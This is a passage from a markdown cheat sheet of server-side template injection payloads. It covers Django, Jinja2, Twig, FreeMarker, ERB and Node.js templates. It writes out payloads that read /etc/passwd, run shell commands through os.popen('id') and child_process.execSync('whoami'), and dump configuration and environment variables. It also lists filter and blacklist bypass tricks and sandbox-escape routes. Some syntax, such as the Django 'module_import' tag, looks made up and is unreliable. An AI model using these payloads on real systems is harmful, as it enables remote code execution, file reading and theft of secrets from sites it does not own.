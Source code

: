   - **Django (Python)**
    
    - **Basic exploration**
      - Debug mode info: `{{ debug }}`
      - Settings: `{{ settings }}`
      - Request: `{{ request }}`
    
    - **Reading files (limited due to sandbox)**
      - With debug mode: 
        ```
        {% debug %}
        ```
      - Template loading:
        ```
        {% include "/etc/passwd" %}
        ```
    
    - **Remote code execution (if debug enabled or sandbox escapes found)**
      ```
      {% load module %}
      {% module_import os as os %}
      {{ os.popen('id').read() }}
      ```

- **Advanced SSTI exploitation techniques**
  
  - **Bypass techniques**
    
    - **Filter bypass using alternate syntax**
      - Alternate delimiters: `[% ... %]`, `<# ... #>`, etc.
      - Alternate expression syntax: `${...}` vs `#{...}` vs `{{...}}`
      - Nested expressions: `{{[''.constructor.constructor('alert(1)')()]}}`
    
    - **Blacklist bypass**
      - Character substitution: `{{con\u0073tructor}}` (Unicode)
      - String concatenation: `{{'co'+'nstructor'}}`
      - Array indexing: `{{''['constructor']}}`
      - Encoding tricks: `{{""["con"+"struct"+"or"]["con"+"struct"+"or"]("return global.pro"+"cess.mainModule.re"+"quire('child_pro'+'cess').execSync('whoami')")()}}`
    
    - **Sandbox escape techniques**
      - Java: `java.lang.Runtime.getRuntime().exec(...)`
      - Python: Finding dangerous classes in `__mro__` and `__subclasses__()`
      - Node.js: Prototype pollution to access restricted objects
    
    - **Context-specific bypasses**
      - Using template-specific features (filters, macros, etc.)
      - Leveraging language-specific quirks
      - Exploiting implementation flaws
  
  - **Information gathering**
    
    - **Environment enumeration**
      - Jinja2: `{{ config }}`, `{{ self.__dict__ }}`
      - Twig: `{{ _self }}`, `{{ _context }}`
      - FreeMarker: `${.data_model}`, `${.globals}`
      - ERB: `<%= ENV %>`, `<%= local_variables %>`
    